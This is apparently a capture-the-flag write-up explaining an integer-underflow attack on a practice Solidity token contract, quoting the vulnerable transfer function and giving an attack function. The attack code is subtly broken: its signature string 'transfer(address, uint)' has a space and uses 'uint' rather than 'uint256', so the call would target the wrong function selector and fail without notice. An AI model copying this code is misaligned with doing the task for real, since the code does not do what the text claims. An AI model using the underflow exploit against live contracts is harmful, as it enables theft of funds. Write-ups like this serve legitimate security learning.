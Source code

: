 # Requirements

- Hack the basic token contract.
- Get more than 20 tokens.

# Attack explanation

This is an old one. Integers in Solidity < 0.8 overflow / underflow without any errors. We could use this in our favour to make a small value underflow and convert it into a large value. We can achieve this by playing a little bit with transfer function.

```
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```

We need to make our balance underflow. In this way, we will be able to extract a large amount of tokens from the contract, ideally, the total supply. This can be achieved by calculating type(uint256).max - totalSupply, or just sending totalSupply + 1.

# Attack function

We could solve the challenge by just using the following attack function:

```
function attack() public {
    vulnerableScAddress.call(
        abi.encodeWithSignature(
            "transfer(address, uint)",
            attacker,
            type(uint256).max - totalSupply // totalSupply + 1.
        )
    );
}
```
